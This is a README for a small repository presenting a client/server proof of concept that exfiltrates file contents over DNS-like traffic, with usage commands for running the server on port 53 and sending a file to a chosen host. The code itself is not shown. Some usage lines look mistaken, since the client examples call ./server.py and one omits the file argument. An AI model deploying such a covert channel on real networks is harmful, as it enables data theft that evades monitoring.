 # About

This repository contains a proof of work for extracting file-content via (what looks like) DNS.
The *client* takes a file and sends it's content to the *server*.

Upon receiving a payload, the server will display it's content and save it to a file.

# Usage

## Server

`./server.py [HOST [PORT]]`

default: 172.0.0.1:53

e.g.: 

`./server.py`: Start server on 172.0.0.1:53

`./server.py 0.0.0.0`: Start server on 0.0.0.0:53

`./server.py 192.168.0.100 4000`: Start server on 192.168.0.100:4000


**Note**: When running on low ports (like 53), root privileges are required.

## Client

`./server.py FILE [HOST [PORT]]`

default: 172.0.0.1:53

e.g.: 

`./server.py robotergesetz.txt`: Send content of robotergesetz.txt to 172.0.0.1:53

`./server.py robotergesetz.txt 0.0.0.0`: Send content of robotergesetz.txt to 0.0.0.0:53

`./server.py 192.168.0.100 4000`: Send content of robotergesetz.txt to 192.168.0.100:4000

